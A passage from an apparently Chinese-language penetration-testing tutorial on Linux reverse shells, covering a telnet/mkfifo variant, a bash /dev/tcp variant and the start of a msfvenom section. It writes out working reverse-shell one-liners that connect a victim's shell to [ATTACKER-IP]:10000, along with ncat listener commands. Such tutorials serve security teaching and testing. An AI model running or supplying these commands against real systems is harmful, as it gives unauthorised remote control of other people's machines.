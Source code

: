 安装，然而运行上面的命令时报错：

```
lua: (command line):1: module 'socket' not found:
```

## 0x08 反弹shell：telnet

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet [ATTACKER-IP] 10000 >/tmp/f
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-13.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-12.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

与`nc`中的原理相同，只是把`nc`换成了`telnet`。

## 0x09 反弹shell：bash-2

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
exec 5<>/dev/tcp/[ATTACKER-IP]/10000;cat <&5 | while read line; do $line 2>&5 >&5; done
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-15.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-14.png)

这个反弹shell的管道功能和重定向功能有问题。

**原理**

## 0x0A 反弹shell：msfvenom

`msfvenom`是一款`Payload Generator and Encoder`，在`kali`下可以找到。它能够生成各种语言的反弹shell：

查询反弹shell：
